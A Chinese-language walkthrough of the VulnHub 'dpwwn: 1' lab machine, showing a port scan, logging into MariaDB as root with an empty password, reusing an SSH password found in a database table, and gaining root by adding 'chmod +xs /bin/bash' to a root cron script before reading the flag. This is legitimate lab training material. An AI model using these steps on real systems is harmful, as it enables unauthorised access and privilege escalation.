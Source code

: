 # dpwwn: 1

2024-6-12 https://www.vulnhub.com/entry/dpwwn-1,342/

difficulty: Easy

## IP

101.1.0.168

## Scan

Open Port -> 22,80,3306

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 c1d3be39429d5cb4952c5b2e20590e3a (RSA)
|   256 434ac610e7177da0c0c376881d43a18c (ECDSA)
|_  256 0ecce3e1f78773a10347b9e2cf1c9315 (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Apache HTTP Server Test Page powered by CentOS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
3306/tcp open  mysql   MySQL 5.5.60-MariaDB
| mysql-info:
|   Protocol: 10
|   Version: 5.5.60-MariaDB
|   Thread ID: 5
|   Capabilities flags: 63487
|   Some Capabilities: SupportsTransactions, ConnectWithDatabase, Support41Auth, IgnoreSigpipes, Speaks41ProtocolOld, SupportsLoadDataLocal, InteractiveClient, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, FoundRows, LongColumnFlag, ODBCClient, SupportsCompression, IgnoreSpaceBeforeParenthesis, LongPassword, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: $Z{~&>E#y^J8yxoFP<||
|_  Auth Plugin Name: mysql_native_password
```

优先看 80 web 服务，gobuster 扫描出一个 http://101.1.0.168/info.php 页面，没看到什么信息，其他页面也没有。

看看 mysql 吧，尝试看看空密码或者弱密码能不能登陆。

结果空密码就能进入， mysql -u root -h 101.1.0.168 -p 直接 2 个回车，不用输入密码。

发现 ssh 库中有 users 表：

```
MariaDB [ssh]> select * from users;
+----+----------+---------------------+
| id | username | password            |
+----+----------+---------------------+
|  1 | mistic   | testP@$$swordmistic |
+----+----------+---------------------+
1 row in set (0.006 sec)
```

尝试用此凭据进行 ssh 登陆，登陆成功。

进行系统枚举，寻找提权路径。

cat /etc/crontab 中发现以 root 身份每 3 分钟调用一次 /home/mistic/logrot.sh， 这个文件可以被修改，所以直接在文件中添加一行执行代码：

```
chmod +xs /bin/bash
```

等待 3 分钟，/bin/bash 就变成了 suid 权限：

```
[mistic@dpwwn-01 ~]$ /bin/bash -p
bash-4.2# id
uid=1000(mistic) gid=1000(mistic) euid=0(root) egid=0(root) 组=0(root),1000(mistic) 环境=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
bash-4.2# cd /root
bash-4.2# ls
anaconda-ks.cfg  dpwwn-01-FLAG.txt
bash-4.2# cat dpwwn-01-FLAG.txt

Congratulation! I knew you can pwn it as this very easy challenge.

Thank you.


64445777
6e643634
37303737
37373665
36347077
776e6450
4077246e
33373336
36359090
```
